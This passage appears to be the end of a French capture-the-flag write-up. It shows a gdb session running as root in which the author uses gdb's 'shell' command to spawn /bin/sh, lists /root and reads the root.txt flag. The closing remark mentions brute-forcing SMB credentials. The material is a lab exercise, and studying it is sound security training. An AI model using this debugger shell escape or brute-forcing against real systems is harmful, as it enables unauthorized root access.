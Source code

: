 RTFM for fun and profit :p  

```plain
(gdb) help
List of classes of commands:

aliases -- Aliases of other commands
breakpoints -- Making program stop at certain points
data -- Examining data
files -- Specifying and examining files
internals -- Maintenance commands
obscure -- Obscure features
running -- Running the program
stack -- Examining the stack
status -- Status inquiries
support -- Support facilities
tracepoints -- Tracing of program execution without stopping the program
user-defined -- User-defined commands

Type "help" followed by a class name for a list of commands in that class.
Type "help" followed by command name for full documentation.
Command name abbreviations are allowed if unambiguous.
(gdb) help support
Support facilities.

List of commands:

apropos -- Search for commands matching a REGEXP
define -- Define a new command name
document -- Document a user-defined command
--- snip ---
shell -- Execute the rest of the line as a shell command
show architecture -- Show the current target architecture
--- snip ---
(gdb) shell whoami
root
(gdb) shell /bin/sh
# cd /root
# ls
.bash_history   .cshrc      .history    .k5login    .login      .profile    .wget-hsts  root.txt
# cat root.txt
6e1356345d29ccfc1aa3eccefb8179a6714c8be2
```

Un CTF simple si on exclue la galère à avoir un outil de brute-force SMB fonctionnel ainsi que le léger guessing à devoir attaquer le compte root dès le début.

*Published November 17 2020 at 14:25*
